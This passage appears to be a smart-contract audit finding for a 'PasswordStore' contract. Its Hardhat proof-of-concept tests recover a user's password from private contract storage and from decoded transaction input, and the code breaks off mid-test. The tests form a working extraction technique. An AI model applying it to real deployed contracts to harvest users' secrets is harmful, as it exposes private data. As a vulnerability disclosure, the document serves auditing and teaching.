 ## Impact
Passwords will be compromised and all the relevant projects hacked. The proof test case:

```
import { expect } from 'chai';
import { ethers } from 'hardhat';
import { Transaction } from 'ethers';

const { provider, deployContract, getSigners, keccak256, AbiCoder, concat, decodeBytes32String, dataSlice } = ethers;

describe('passwordStore', function () {
	it('We should retreive password from the storage', async () => {
		const [deployer, user1] = await getSigners();

		const password = 'mySecretPassword';

		const contract = await deployContract('PasswordStore');
		await contract.connect(user1).setPassword(password); // user1 sets the password

		// now we'll read it from the storage
		// getting the hashed slot for out private password mapping
		const slot = keccak256(
			concat([AbiCoder.defaultAbiCoder().encode(['address'], [user1.address]), AbiCoder.defaultAbiCoder().encode(['uint256'], [0])])
		);
		// reading the slot
		const fetchedBytes = await provider.getStorage(contract.target, slot);
		// decoding it to a string
		const decodedPassword = decodeBytes32String(fetchedBytes.slice(0, -2) + '00');
		// aaaand....
		console.log('DRUM ROLL..... THE DECODED PASSWORD IS:', decodedPassword);

		// passwords match, we have the user1's password
		expect(decodedPassword).equals(password);
	});

	it('We should get the password from the tx input', async () => {
		const [deployer, user1] = await getSigners();

		const password = 'mySecretPassword';

		const contract = await deployContract('PasswordStore');
		await contract.connect(user1).setPassword(password); // user1 sets the password

		// getting all txs from the latest block
		const { transactions } = await provider.send('eth_getBlockByNumber', ['latest', true]);

		// finding the needed tx where user set the password
		const neededTx = transactions.find((tx: Transaction) => tx.to!.toLowerCase() === contract.target.toString().toLowerCase());

		// optional, if we don't know the type of the input
		const functionSig = dataSlice(neededTx?.input!, 0, 4);
		const res = await (await fetch(`https://api.openchain.xyz/signature-database/v1/lookup?filter=false&function=${functionSig}`)).json();
		const decodedFuncSig = res.result.function[functionSig][0].name;
		console.log('Function sig:', decodedFuncSig); // setPassword(string)

		// decoding the input
		const decodedFuncInput = AbiCoder.defaultAbiCoder().decode(['string'], dataSlice(neededTx!.input, 4));
		// looking at it
```
